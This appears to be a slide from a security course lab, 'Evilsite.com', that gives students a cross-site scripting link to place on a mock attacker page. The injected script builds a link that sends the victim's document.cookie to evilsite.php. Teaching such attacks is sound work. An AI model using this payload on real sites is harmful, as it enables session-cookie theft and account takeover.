

# Evilsite.com
Replace the link in evilsite.php with:
<a href="caribou_computers.php?referrer=Evilsite<script>document.write('<a href=');document.write(String.fromCharCode(34));document.write('evilsite.php?comment=');document.write(document.cookie);document.write(String.fromCharCode(34));document.write('>');document.write('Click here to go back</a>');</script>">Go to Carabou Computers</a>
Try to understand what each part is doing here. You may need this for other assignments in the course.